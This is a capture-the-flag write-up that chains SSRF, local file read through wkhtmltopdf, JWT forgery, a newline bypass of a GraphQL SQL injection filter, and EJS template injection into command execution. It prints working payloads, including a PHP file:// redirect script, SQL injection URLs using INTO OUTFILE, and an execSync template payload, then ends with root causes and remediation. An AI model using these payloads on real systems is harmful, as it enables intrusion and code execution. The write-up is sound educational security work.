

# Blueprint Heist

## Category: Web | Difficulty: Medium | Approach: White-box

### PART I: Vulnerability Overview

Server-Side Request Forgery (CWE-918) in the PDF-generation feature at `/download` allows an attacker to read local files, obtain the JWT signing secret, and access internal-only routes by forging an admin JWT and satisfying the application's localhost check through SSRF. From there, SQL Injection (CWE-89) in `/graphql` is used to write an attacker-controlled EJS template to disk, leading to Server-Side Template Injection (CWE-1336) and Remote Code Execution.

---

### PART II: Application Mapping

The application is a simple page that displays two buttons.



Both buttons download a PDF file.


That’s it for the UI, so I move to reviewing the source code.

---

### PART III: Source Code Reviewing & Exploitation

#### III.1: Server-Side Request Forgery

Starting with `app/routes/public.js` . 

The `/download` route requires `authMiddleware("guest")` before calling `convertPdf()` , but since a guest token is freely obtainable from the public `/getToken` endpoint, this check provides no meaningful access control.

```jsx
const express = require("express");
const router = express.Router();

const { authMiddleware, generateGuestToken } = require("../controllers/authController")
const { convertPdf } = require("../controllers/downloadController")

router.get("/", (req, res) => {
    res.render("index");
})

router.get("/report/progress", (req, res) => {
    res.render("reports/progress-report")
})

router.get("/report/enviromental-impact", (req, res) => {
    res.render("reports/enviromental-report")
})

router.get("/getToken", (req, res, next) => {
    generateGuestToken(req, res, next)
});

router.post("/download", authMiddleware("guest"), (req, res, next) => {
    convertPdf(req, res, next)
})

module.exports = router;
```

So I follow along to see what `convertPdf()` does.

This function first takes the `url` parameter from request body, chains it through several functions and finally passes it as an argument to `wkhtmltopdf()` .

```jsx
const { generateError } = require('./errorController');
const { isUrl } = require("../utils/security")
const crypto = require('crypto');
const wkhtmltopdf = require('wkhtmltopdf');

async function convertPdf(req, res, next) {
    try {
        const { url } = req.body;

        if (!isUrl(url)) {
            return next(generateError(400, "Invalid URL"));
        }

        const pdfPath = await generatePdf(url);
        res.sendFile(pdfPath, {root: "."});

    } catch (error) {
        return next(generateError(500, error.message));
    }
}

async function generatePdf(urls) {
    const pdfFilename = generateRandomFilename();
    const pdfPath = `uploads/${pdfFilename}`;

    try {
        await generatePdfFromUrl(urls, pdfPath);
        return pdfPath;
    } catch (error) {
        throw new Error(`Error generating PDF: ${error.stack}`);
    }
}

async function generatePdfFromUrl(url, pdfPath) {
    return new Promise((resolve, reject) => {
        wkhtmltopdf(url, { output: pdfPath }, (err) => {
            if (err) {
                console.log(err)
                reject(err);
            } else {
                resolve();
            }
        });
    });
}

function generateRandomFilename() {
    const randomString = crypto.randomBytes(16).toString('hex');
    return `${randomString}.pdf`;
}

module.exports = { convertPdf };

```

But before chaining, it must pass `isUrl()` .

This function simply tries to parse the supplied `url` . As long as it is valid, it can pass this check.

```jsx
const URL = require("url").URL;
...
function isUrl(url) {
    try {
      new URL(url);
      return true;
    } catch (err) {
      return false;
    }
  };
```

The validation only checks whether the string is a syntactically valid URL, it does not check whether fetching that URL is actually permitted.

Therefore, I can supply a URL pointing to an arbitrary destination, and the application will attempt to fetch it and convert its content into a PDF. This leads to SSRF.


#### III.2: Local File Read

In the response above, I notice that the application uses wkhtmltopdf 0.12.5. After researching this version, I find CVE-2020-21365, which describes an issue that allows local files to be read through crafted HTML under the default configuration.

For this application, I use an HTTP redirect to a `file://` URL to access local files. The technique is similar to [[this link](https://exploitnotes.org/exploit/web/wkhtmltopdf-ssrf)].

First, I create a simple PHP script to perform the redirect.

```php
<?php header('location:file://'.$_REQUEST['x']); ?>
```

Then I start a PHP server to host the script using `php -S 0.0.0.0:<PORT>` and use a Cloudflare Quick Tunnel to make it accessible from the Internet.


This time, I use the SSRF to request the redirect script hosted on my server. Since I’m using a PHP web server, the hosted script executes server-side. The PDF renderer then follows the redirect and accesses the local file.


#### III.3 Internal Routes Accessing

Next, I look at `app/routes/internal.js`.

This file contains two routes, and both require `authMiddleware("admin")`.

```jsx
const express = require("express");
const router = express.Router();

const { authMiddleware } = require("../controllers/authController")

const schema = require("../schemas/schema");
const pool = require("../utils/database")
const { createHandler } = require("graphql-http/lib/use/express");

router.get("/admin", authMiddleware("admin"), (req, res) => {
    res.render("admin")
})

router.all("/graphql", authMiddleware("admin"), (req, res, next) => {
    createHandler({ schema, context: { pool } })(req, res, next); 
});

module.exports = router;
```

`authMiddleware()` first calls `verifyToken()` to verify the JWT and retrieve its role. Access to these routes is only granted when the token contains the `admin` role.

```jsx
function verifyToken(token) {
    try {
        const decoded = jwt.verify(token, secret);
        return decoded.role;
    } catch (error) {
        return null
    }
}

const authMiddleware = (requiredRole) => {
    return (req, res, next) => {
        const token = req.query.token;

        if (!token) {
            return next(generateError(401, "Access denied. Token is required."));
        }

        const role = verifyToken(token);

        if (!role) {
            return next(generateError(401, "Invalid or expired token."));
        }

        if (requiredRole === "admin" && role !== "admin") {
            return next(generateError(401, "Unauthorized."));
        } else if (requiredRole === "admin" && role === "admin") {
            if (!checkInternal(req)) {
                return next(generateError(403, "Only available for internal users!"));
            }
        }

        next();
    };
};
```

The next obstacle is `checkInternal()`. This function checks the remote address of the TCP connection, but I can satisfy this condition by using the SSRF to make the application send a request to its own localhost interface.

```jsx
function checkInternal(req) {
    const address = req.socket.remoteAddress.replace(/^.*:/, '')
    return address === "127.0.0.1"
}
```

Now, I only have to deal with the JWT.

However, the source tree also contains an `app/.env` file with the `secret` used to sign JWTs. The live instance uses different values, but the file is located in the same place.

```
DB_HOST=127.0.0.1
DB_USER=root
DB_PASSWORD=D4T4b4s3Secr3tP4ssw0rd1ss0L0ngOmG!
DB_NAME=construction
DB_PORT=3306
secret=IM_Sup3r_K3y_pl3ase_b3_c4r3ful?
```

Since I can read local files through the PDF-generation feature, I use it to obtain the JWT signing secret.


With that secret, I can sign my own token with the `admin` role.


From `app/index.js`, I can see that the application runs on port 1337.

```jsx
const port = 1337;
app.listen(port, '0.0.0.0', () => {
  console.log(`Server is running on http://localhost:${port}`);
});
```

Then I use SSRF to send a request to `localhost:1337/admin` with the forged token. The response contains the admin page, confirming that I can access the internal route.


#### III.4 SQL Injection

Another internal route is `/graphql` , which uses `app/schemas/schema.js`

This schema contains two queries, but the `getDataByName(name)` query concatenates the `name` argument directly to the SQL query string. This leads to SQLi.

```jsx
const { GraphQLObjectType, GraphQLSchema, GraphQLString, GraphQLList } = require('graphql');
const UserType = require("../models/users")
const { detectSqli } = require("../utils/security")
const { generateError } = require('../controllers/errorController');

const RootQueryType = new GraphQLObjectType({
  name: 'Query',
  fields: {
    getAllData: {
      type: new GraphQLList(UserType),
      resolve: async(parent, args, { pool }) => {
        let data;
        const connection = await pool.getConnection();
        try {
            data = await connection.query("SELECT * FROM users").then(rows => rows[0]);
        } catch (error) {
            generateError(500, error)
        } finally {
            connection.release()
        }
        return data;
      }
    },
    getDataByName: {
      type: new GraphQLList(UserType),
      args: {
        name: { type: GraphQLString }
      },
      resolve: async(parent, args, { pool }) => {
        let data;
        const connection = await pool.getConnection();
        console.log(args.name)
        if (detectSqli(args.name)) {
          return generateError(400, "Username must only contain letters, numbers, and spaces.")
        }
        try {
            data = await connection.query(`SELECT * FROM users WHERE name like '%${args.name}%'`).then(rows => rows[0]);
        } catch (error) {
            return generateError(500, error)
        } finally {
            connection.release()
        }
        return data;
      }
    }
  }
});

const schema = new GraphQLSchema({
  query: RootQueryType
});

module.exports = schema;

```

But before concatenating, the argument is validated using `detectSqli()` .

```jsx
function detectSqli (query) {
    const pattern = /^.*[!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]/
    return pattern.test(query)
}
```

I test this pattern on `regex101` to identify the behavior. 

After some testing, I find that this pattern can be bypassed by placing the payload on a new line. 

Since the regex does not use the `s` or `m` flag, `.` cannot match across an embedded newline, and `^` only matches the beginning of the entire string. As a result, blocked characters placed after a newline are not detected.


This is the `database/db.sql` , which contains some data by default.

```sql
create database construction;

CREATE TABLE construction.users (
    id INTEGER PRIMARY KEY AUTO_INCREMENT,
    name TEXT,
    department TEXT,
    isPresent BOOLEAN
);

INSERT INTO construction.users (name, department, isPresent)
VALUES
    ('John Doe', 'construction', 1),
    ('Alice Smith', 'safety', 0),
    ('Bob Johnson', 'equipments', 0),
    ...

CREATE USER 'root'@'%' IDENTIFIED BY 'D4T4b4s3Secr3tP4ssw0rd1ss0L0ngOmG!'; 
GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' WITH GRANT OPTION;
FLUSH PRIVILEGES;
```

I first try a normal query. It returns two matching records.

Raw payload: 

`url=http://localhost:1337/graphql?token=<FORGED_TOKEN>&query={getDataByName(name:"john"){id name department isPresent}}`


This time, I inject the query. It returns all records, confirming the SQL injection.

Raw payload:

`url=http://localhost:1337/graphql?token=<FORGED_TOKEN>&query={getDataByName(name:"john\n ' or 1=1-- -"){id name department isPresent}}`


#### III.5 Server-Side Template Injection & Remote Code Execution

To retrieve the flag, I need to execute the `/readflag` binary.

```c
#include<unistd.h>
#include<stdlib.h>
int main()
{
    setuid(0);
    system("cat /root/flag.txt");
}
```

The Dockerfile shows how this binary is built. It is compiled from `readflag.c`, configured with the setuid bit, and the source file is removed afterward.

```docker
# Setup readflag
COPY config/readflag.c /
RUN gcc -o /readflag /readflag.c && chmod 4755 /readflag && rm /readflag.c
```

Looking at `app/controllers/errorController.js`, I find that `renderError()` selects an error template based on the HTTP status code and renders it using `res.render()`.

If the corresponding template does not exist, the function falls back to `error.ejs`.

```jsx
const fs = require('fs');
const path = require('path');

function generateError(status, message) {
    const err = new Error(message);
    err.status = status;
    return err;
};

const renderError = (err, req, res) => {
    res.status(err.status);
    const templateDir = __dirname + '/../views/errors';
    const errorTemplate = (err.status >= 400 && err.status < 600) ? err.status : "error"
    let templatePath = path.join(templateDir, `${errorTemplate}.ejs`);

    if (!fs.existsSync(templatePath)) {
        templatePath = path.join(templateDir, `error.ejs`);
    }
    console.log(templatePath)
    res.render(templatePath, { error: err.message }, (renderErr, html) => {
        res.send(html);
    });
};

module.exports = { generateError, renderError }
```

However, when I look at the errors folder, I find only three status-specific templates, along with the generic `error.ejs`.


Neither the 403 nor the 404 status code has a corresponding template.

```jsx
app.use((res, req, next) => {
  const err = generateError(404, "Not Found")
  return next(err);
});
//.............................
if (!checkInternal(req)) {
  return next(generateError(403, "Only available for internal users!"));
}
```

Since the application uses `res.render()` to render these files, I can achieve SSTI if I control the template source. The injected EJS code will then execute when the template is rendered.

After researching SSTI in EJS, I find the following payload:

`<%= process.mainModule.require('child_process').execSync('COMMAND') %>` 

The application connects to the database as root, the account has all privileges, including the `FILE` privilege. This allows me to create the template file using `SELECT ... INTO OUTFILE`.


I choose `404.ejs` because requesting a nonexistent path naturally triggers a 404 response, causing `renderError()` to look for that template.

Since I already have SQL injection and the database account has the `FILE` privilege, I use `SELECT ... INTO OUTFILE` to create `404.ejs` with the EJS payload.

After some modifications, I get the following working payload:

Raw payload:

`url=http://localhost:1337/graphql?token=<FORGED_TOKEN>&query={getDataByName(name:"john\n ' union select null,null,'<p><%= process.mainModule.require(\"child_process\").execSync(\"/readflag\") %><p>',null into outfile '/app/views/errors/404.ejs'-- -"){id name department isPresent}}`


Just to be sure, I check that the file has been created with the expected content.


With everything in place, I request a nonexistent path. This triggers `renderError()` to render the newly created `404.ejs` template, executing the `/readflag` binary.


---

### PART IV: Impact

A guest token requires no credentials and is freely issued through the public `/getToken` endpoint, so the attack chain is accessible without prior authentication. 

The final step achieves arbitrary OS command execution under the application's runtime user. However, the setuid-root `/readflag` binary allows this unprivileged process to read `/root/flag.txt`.

The SQLi also provides a file-write primitive through `SELECT ... INTO OUTFILE`. This is not limited to the error-template path demonstrated in this PoC; it can create files in other locations permitted by MySQL's `FILE` privilege, the server process's filesystem permissions, and the `secure_file_priv` configuration.

**Severity: Critical** - The attack chain starts from a publicly accessible endpoint and leads to OS command execution. The SQL injection also provides a file-write primitive that can affect locations beyond the specific template path demonstrated here.

---

### PART V: Root Cause & Remediation

#### Root Cause:

- **Unrestricted URL fetching (CWE-918):** `isUrl()` only verifies that the input is a syntactically valid URL. It does not restrict the destination or prevent access to internal resources. As a result, an attacker-controlled URL can reach internal services or redirect the PDF renderer to a `file://` URL.
- **Local file access in the PDF renderer (CVE-2020-21365):** The deployed wkhtmltopdf version is 0.12.5, which is affected by a local file access vulnerability. This allows the renderer to access local files through crafted HTML under the affected configuration.
- **Secret stored in an application file:** The JWT signing secret is stored in `app/.env`, inside the application's filesystem. The SSRF and local file read vulnerabilities allow an attacker to retrieve it.
- **Access control based on the connection's source address:** `checkInternal()` trusts `req.socket.remoteAddress` as proof of internal origin. However, SSRF allows the application to initiate a request to its own localhost interface, satisfying this check without the attacker having direct access to the internal network.
- **SQL Injection via string concatenation (CWE-89):** `getDataByName()` directly concatenates `args.name` into the SQL query. After bypassing `detectSqli()`, attacker-controlled input becomes part of the SQL syntax rather than being treated as data.
- **Denylist filter with a structural blind spot:** `detectSqli()` uses a regex that does not account for embedded newlines. As a result, a newline-prefixed payload can bypass the filter and introduce SQL syntax into the query.
- **Over-privileged database account:** The application connects as `root`@`%` with `ALL PRIVILEGES`, including the `FILE` privilege. Once SQL injection is achieved, this allows an attacker to make MySQL create files through `INTO OUTFILE`, subject to the server's filesystem permissions and `secure_file_priv` configuration.
- **Template rendering without protection against attacker-controlled template files (CWE-1336):** `renderError()` uses `res.render()` to execute the EJS template found at the resolved path. Because the database process can create a file in the template directory, an attacker can plant an EJS payload that executes when the corresponding error template is rendered.

#### Remediation:

- **Restrict URL destinations:** Allow-list permitted schemes (`http` and `https`) and validate the destination host and resolved IP address. Block requests to localhost, private, link-local, and other restricted address ranges. Revalidate destinations after redirects to prevent redirect-based SSRF.
- **Patch or replace the PDF renderer:** Upgrade to a patched wkhtmltopdf release or distribution package that addresses CVE-2020-21365. Alternatively, replace wkhtmltopdf with an actively maintained renderer and explicitly disable local file access.
- **Protect application secrets:** Load secrets from environment variables injected by the deployment or orchestration layer. Avoid storing sensitive values in files that can be reached through application features such as URL fetching or file rendering.
- **Use proper internal access controls:** Do not rely on the network connection's source address as proof of internal authorization. Use a separate authentication mechanism, such as a shared internal authentication token or mutual TLS between services.
- **Prevent SQL injection:** Use parameterized queries for all database access. This separates SQL syntax from user-controlled data and removes the need for a hand-written SQLi denylist.
- **Apply least privilege to the database account:** Create a dedicated database account with only the permissions required by the application, such as `SELECT`, `INSERT`, and `UPDATE` on the specific schema. Do not use a superuser account or grant the application the `FILE` privilege.
- **Protect template files:** Ensure that the database process cannot write to the application's template directories. This provides an additional layer of defense, preventing a file-write vulnerability from becoming template injection and code execution.
